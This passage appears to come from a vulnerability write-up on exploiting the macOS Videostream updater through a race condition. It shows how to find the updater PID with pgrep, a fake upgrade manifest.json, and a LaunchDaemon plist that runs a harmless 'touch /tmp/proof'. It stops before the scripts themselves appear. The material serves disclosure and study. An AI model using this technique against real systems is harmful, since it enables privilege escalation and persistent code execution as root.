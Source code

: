But we still haven't solved the second problem. How do we figure out which file to create if it stores it with a different name (based on the updater PID) on each run?

To do that, we could use `pgrep` to extract the updater PID:

```bash
pgrep -f Videostream.update
```

And use the same technique as previously with an exploit race to override that file.

# Writing the Exploit

With an understanding of how to exploit the vulnerabilities, we can proceed to write the exploit. The exploit will be split into two scripts:

1. Override the `manifest.json` with the updater process ID.
2. Override the `/tmp/videostream_0.5.0.tar.gz` file.

First, we’ll create the `escalate.tar.gz` file with the following contents:
- Library
    - LaunchDaemons
        - `com.example.proof.plist`

`com.example.proof.plist` contains:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
  <dict>
    <key>Label</key>
    <string>com.example.proof</string>
    <key>ProgramArguments</key>
    <array>
      <string>touch</string>
      <string>/tmp/proof</string>
    </array>
    <key>RunAtLoad</key>
    <true/>
  </dict>
</plist>
```

Next, we’ll create a fake `manifest.json` that will represent a version upgrade:

```json
{
"CurrentVersion": "0.5.3",
"url": "videostream_0.5.0.tar.gz"
}
```

Then we’ll create the first script that overrides the `manifest.json` with the current PID as its name:
